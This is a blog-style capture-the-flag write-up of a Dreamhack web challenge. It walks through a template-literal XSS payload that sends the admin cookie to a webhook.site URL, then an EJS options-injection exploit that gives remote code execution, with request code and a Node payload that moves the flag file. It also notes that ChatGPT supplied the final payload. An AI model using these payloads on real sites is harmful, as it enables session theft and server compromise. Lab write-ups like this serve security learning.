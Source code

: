 ```yaml
---
title: Cat Cute!
date: 2025-10-12 18:00:00 +0800
categories: [Cybersecurity]
tags: [dreamhack, web]
description: Level 6 web exploitation challenge on Dreamhack.io
---
```


### The Challenge
[https://dreamhack.io/wargame/challenges/1005](https://dreamhack.io/wargame/challenges/1005)

![](/assets/img/posts/cat-cute/img1.png)
*Cats are cute.*

Checking `index.ejs`:

```html
<script>
    main.innerHTML=`<img class=background src=<%= src ?? "/static/cat.jpg" %>>`;
</script>
```

Obtaining XSS here is trivial; although src is escaped by EJS, we can inject our own Javascript onto the page by breaking out of the template string literal using a backtick (`` ` ``)

Here is the payload that we report to the admin to obtain the cookie:

```js
`;location=`https://webhook.site/f6073bfc-7366-4541-8b04-de22b6a37a2d?a=${document.cookie}`;`
```

![](/assets/img/posts/cat-cute/img2.png)
*Admin cookie PWNED!*

The next part seems quite confusing as we can't really do anything as the admin.

```js
app.get('/admin', (req,res) => {
  if (req.cookies?.admin === adminCookie) {
    res.render('admin', {...req.query});
  }
  else{
    return res.status(403).send("You are not Admin!");
  }
})
```

However, passing unsanitized input into the `options` object (the second argument in `res.render`) is extremely dangerous; doing so can lead to RCE.

We can find a PoC for this exploit from a google search: [https://github.com/mde/ejs/issues/720](https://github.com/mde/ejs/issues/720)

Sending this in `req.query` lets us execute arbitrary Javascript:

```js
params = {
    "settings[view options][client]": True,
    "settings[view options][escapeFunction]": """1; (code here); return "ok";"""
}

response = requests.get(
    'http://host8.dreamhack.games:24558/admin',
    params=params,
    cookies=cookies,
    headers=headers,
    verify=False,
)
```

Obtaining the flag is not so straightforward as we are actually inside an ES module (`package.json`):

```json
{
  "type": "module",
  "dependencies": {
    "cookie-parser": "^1.4.6",
    "ejs": "^3.1.9",
    "express": "^4.18.2",
    "express-rate-limit": "^6.9.0",
    "puppeteer": "^21.0.1"
  }
}
```

This means that simple payloads like `process.mainModule.require("fs").readFileSync(...)` won't work...

After a lot of trial and error (including attempting to use `process.binding("fs").rename` which failed miserably), I managed to prompt ChatGPT to give me this payload:

```js
1;
(async () => {
  const fsModule = await import('node:fs');
  try {
    fsModule.renameSync('/app/flag.txt', '/app/templates/admin.ejs');
    console.log('renameSync OK');
  } catch (err) {
    console.error('renameSync failed:', err);
  }
})();
return "ok";
```

After submitting this payload, just reload the admin page and win!

### Conclusion

Take home points:
1. ES modules are difficult to work with
2. When in doubt, prompt ChatGPT harder
3. Prompting actually takes skill

After solving the challenge, I also realized that I could have just used the `fetch` API to send the flag to my own server...